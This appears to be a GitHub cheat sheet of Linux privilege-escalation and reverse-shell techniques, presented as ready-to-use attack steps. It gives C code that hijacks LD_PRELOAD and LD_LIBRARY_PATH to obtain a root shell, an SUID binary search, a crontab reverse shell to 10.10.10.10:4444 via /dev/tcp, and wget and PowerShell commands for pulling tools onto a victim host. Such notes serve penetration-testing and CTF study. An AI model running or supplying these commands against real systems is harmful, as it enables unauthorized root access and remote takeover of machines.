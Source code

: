 # PrivEscalation
***
* ### Better listener shell experience
```python -c 'import pty;pty.spawn("/bin/bash")'``` 


* ### List sudo capability of the current user
```sudo -l```


* ### Find interesting binaries that can exploit shell
```find / -perm /6000 2>/dev/null | grep '/bin'```


* ### https://gtfobins.github.io/ followed the interesting tools that can exploit 


* ### env_keep exploit when ```sudo -l``` and ```ddl <thetargetedprogram>``` to find its libraries

> #### - Take advantage of LD_PRELOAD
a. compile the library.
```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/preload.c```
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

b. sudo program with the LD_PRELOAD
```sudo LD_PRELOAD=/tmp/preload.so program-name-here```

> #### - Take advantage of LD_LIBRARY_PATH
a. find the libraries used by the program
```ldd /usr/sbin/<program> #for example```

b. compile the library with one of the libraries name
```gcc -o /tmp/<libraryname> -shared -fPIC /home/user/library_path.c```
```#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

c. sudo program with the LD_LIBRARY_PATH
```sudo LD_LIBRARY_PATH=/tmp <programname>```


* ### Cron job if it's writable on /etc/crontab file (can use any available type of reverse shell http://revshells.com/ ):
```#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```


* ### Automated tools
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker


# Reverse Shell
***
* ### https://www.revshells.com/

* ### MonkeyPenTest

* ### Start webserver using python ```sudo python3 -m http.server 80``` then download files into victim shell 
Linux :"wget <LOCAL-IP>/socat -O /tmp/socat"
Windows: "Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe"

